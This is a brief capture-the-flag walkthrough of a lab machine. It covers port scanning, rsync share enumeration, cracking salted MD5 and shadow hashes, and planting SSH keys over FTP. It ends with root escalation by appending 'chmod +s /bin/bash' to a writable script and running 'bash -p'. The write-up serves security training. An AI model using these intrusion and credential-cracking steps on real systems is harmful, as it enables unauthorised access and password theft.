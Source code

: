 # Enumeration
```
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.5
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ae:3c:b4:e7:1d:b7:c2:43:86:40:83:19:90:f5:33:c1 (ECDSA)
|_  256 8a:d0:1b:54:0b:aa:15:85:b3:ac:7b:4b:1c:09:14:2a (ED25519)
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
873/tcp open  rsync   (protocol version 31)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
So enumerating rsync:
`rsync -av --list-only rsync://10.10.80.132/`
![](attachment/f5c7c739673f54939729b5a0ec736559.png)
Now downloading everything from httpd:
We notice a site.db so opening it there are 2 users:
![](attachment/afd15af084fe9285f7dd392e097da837.png)
Analysing the index.php from the same directory:
![](attachment/139773b299d1df487fd53116ccfca637.png)
it is a salted md5 hash so using mode 20 and arranging hash in the format:

![](attachment/fce0ed2ff5d80af65e413964a4b6fe39.png)
Now we can crack the password:
![](attachment/188278c7289d6d1e0bbfa618b8833f3f.png)
Now logging in through ftp and putting authorized keys to login with ssh. We get a shell as triss.
Then trying to su to jennifer she uses the same password
Now we can access the /backup folder which contains passwd and shadow files:
![](attachment/d24c7fa628719db361496c6e91f9218a.png)
Using unshadow and john:
![](attachment/cb7a78258d0537bf81d0984ee5bb08d0.png)
We find the password sa user.

Now trying to enumerate files owned by user sa
we find `/usr/local/bin/backup.sh`
![](attachment/56e6841542b9b3c213435799cc99a0c3.png)
Adding `chmod +s /bin/bash`
We can see it works:
![](attachment/7c8b82ed91a2447c4453a181974a4523.png)
Now trying to run bash as root user:
`/bin/bash -p`

